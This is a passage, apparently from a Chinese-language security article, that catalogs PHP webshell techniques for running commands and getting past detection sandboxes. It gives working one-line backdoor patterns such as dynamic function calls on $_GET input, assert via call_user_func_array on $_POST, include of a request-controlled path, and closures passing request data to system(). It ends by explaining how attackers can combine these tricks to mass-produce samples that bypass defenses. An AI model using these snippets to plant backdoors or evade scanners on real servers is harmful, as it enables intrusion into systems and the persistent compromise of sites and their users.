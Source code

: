     2. 1. eval
       2. assert
       3. system
    3. 通过include方式执行指令
    4. 1. include ROOT\_PATH . $\_REQUEST\['target'\];
    5. 通过array callback execute方式实现代码执行
    6. 1. \($a = 'assert'\)&&\($b = $\_POST\['a'\]\)&&call\_user\_func\_array\($a, array\($b\)\);
       2. array\_udiff\_assoc\(array\($\_REQUEST\[$password\]\), array\(1\), "assert"\);
    7. 利用动态字符串函数调用特性（PHP中字符串可以直接作为函数名称被调用）
    8. 1. $dyn\_func = $\_GET\['dyn\_func'\]; $argument = $\_GET\['argument'\]; $dyn\_func\($argument\);
    9. 利用序列化/反序列化特性执行指令
    10. 利用类构造/析构特性执行指令
    11. 利用anonymous \(lambda-style\) function（匿名函数）执行指令
    12. 1. create\_function
        2. eval\("function lambda\_n { eval\($\_GET\[1\]\); }"\); lambda\_n;
        3. $a = function\($b\) { system\($b\); }; $a\($\_GET\['c'\]\);
    13. 通过注册系统回调执行指令
    14. 1. register\_shutdown\_function
        2. register\_tick\_function
        3. set\_error\_handler
    15. 利用反射技术执行指令
    16. 利用PHP ${}特性执行指令
    17. 利用系统输出缓存技术执行指令
    18. 利用\`\`特性执行系统指令
    19. 利用字符串处理回调（string process callback）技术执行指令
    20. 1. mbereg\_replace
    21. 利用静态类方法执行指令
    22. 1. class foo { static function a\(callable $b\) { $b\($\_GET\['c'\]\); } } foo::a\('system'\);
11. 动态改变程序执行流支 的技术
12. 1. 利用三元运算符
    2. 根据某外部传入参数，决定某IF条件的判断结果
    3. 利用header实现二次跳转
    4. 通过将外部指令写入系统持久化存储后再通过include执行
    5. 1. 磁盘文件
       2. 临时文件
       3. 内存文件
13. 攻击沙箱/词法引擎的相关特殊技术
14. 1. 代码间插入注释

举一个具体的例子：

![](http://p5.itc.cn/q_70/images03/20200731/0c99e484b8c24a078a1057c64c1119c7.png)

上面这个样本有以下几个绕过点：

1. 利用try-catch方式传递函数名
2. 从内置全局数组中获取外部参数
3. 利用动态字符串函数调用特性（PHP中字符串可以直接作为函数名称被调用）

建立这种思考框架有几个好处：

* php语言特性本身是存在不同的维度的，在每个维度内通过翻阅内核源代码，可以进行充分的穷举
* php的不同trick之间近似于彼此正交的维度，通过对不同维度进行交叉组合，可以高效地写出大量的绕过样本
* 有利于攻击者实现对防御者的单点突破，只要找到某个具体的绕过点，围绕这个绕过点，在其他维度上进行衍生，往往可以在短时间内创造出大量的绕过，方便在实战中迅速突破
